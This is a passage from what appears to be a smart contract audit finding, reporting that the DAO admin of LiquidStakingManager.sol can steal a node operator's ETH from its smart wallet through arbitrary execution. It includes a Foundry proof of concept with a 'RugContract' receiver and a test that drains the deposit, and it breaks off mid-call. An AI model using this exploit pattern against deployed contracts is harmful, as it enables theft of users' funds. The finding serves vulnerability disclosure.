 ```solidity
		_value
	);
}
```
The smart wallet created in the smart contract custody the 4 ETH.
```solidity
// create new wallet owned by liquid staking manager
smartWallet = smartWalletFactory.createWallet(address(this));
emit SmartWalletCreated(smartWallet, msg.sender);
```
```solidity
{
	// transfer ETH to smart wallet
	(bool result,) = smartWallet.call{value: msg.value}("");
	require(result, "Transfer failed");
	emit WalletCredited(smartWallet, msg.value);
}
```
But  Dao admin in LiquidStakingManager.sol can rug the registered node operator by stealing their fund in the smart wallet via arbitrary execution.

As shown in POC:

first we add this smart contract in `LiquidStakingManager.t.sol`.
```solidity
import { ERC20 } from "@openzeppelin/contracts/token/ERC20/ERC20.sol";
contract RugContract {
    function receiveFund() external payable {
    }
    receive() external payable {}
}
contract MockToken is ERC20 {
    constructor()ERC20("A", "B") {
        _mint(msg.sender, 10000 ether);
    }
}
```
We add the two POC, the first POC shows the admin can steal the ETH from the smart contract via arbrary execution.
```solidity
    function testDaoRugFund_Pull_ETH_POC() public {
        
        address user = vm.addr(21312);
        bytes[] memory publicKeys = new bytes[](1);
        publicKeys[0] = "publicKeys";
        bytes[] memory signature = new bytes[](1);
        signature[0] = "signature";
        RugContract rug = new RugContract();
        // user spends 4 ehter and register the key to become the public operator
        vm.prank(user);
        vm.deal(user, 4 ether);
        manager.registerBLSPublicKeys{value: 4 ether}(
            publicKeys,
            signature,
            user
        );
        address wallet = manager.smartWalletOfNodeRunner(user);
        console.log("wallet ETH balance for user after registering");
        console.log(wallet.balance);
        // dao admin rug the user by withdraw the ETH via arbitrary execution.
        vm.prank(admin);
        bytes memory data = abi.encodeWithSelector(RugContract.receiveFund.selector, "");
        manager.executeAsSmartWallet(
            user,
            address(rug),
```